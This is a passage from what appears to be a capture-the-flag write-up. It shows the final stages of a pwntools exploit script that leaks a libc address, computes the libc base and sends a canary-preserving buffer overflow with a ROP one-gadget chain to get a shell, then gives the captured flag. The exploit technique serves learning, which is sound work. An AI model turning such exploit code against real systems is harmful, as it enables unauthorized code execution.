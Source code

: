 ```python

    PAYLOAD = flat(length = LIBC_START_MAIN_231_PADDING)
    r.sendline(PAYLOAD)

    r.recvline()
    libc_start_main_231 = u64(r.recvn(6) + b'\x00\x00') # Fix width for __libc_start_main + 231
    r.success(f'Leaked (__libc_start_main + 231): {hex(libc_start_main_231)}')

    libc.address = libc_start_main_231 - (libc.symbols['__libc_start_main'] + 231)
    r.success(f'Calculated libc base: {hex(libc.address)}')

with log.progress('Stage 3: Pwn'):
    rop = ROP([elf, libc])
    rop.one_gadget()

    r.recvuntil('Try again, give it another shot: ')
    r.sendline(flat({ 0: TRIGGER_RET, CANARY_PADDING: p64(canary), RIP_PADDING: rop.chain() }))

    r.interactive()

r.close()
```

Let's see it in action!

<script id="asciicast-343220" src="https://asciinema.org/a/343220.js" async></script>

Flag: `flag{a_cLOud_iS_jUSt_sOmeBodY_eLSes_cOMpUteR}`
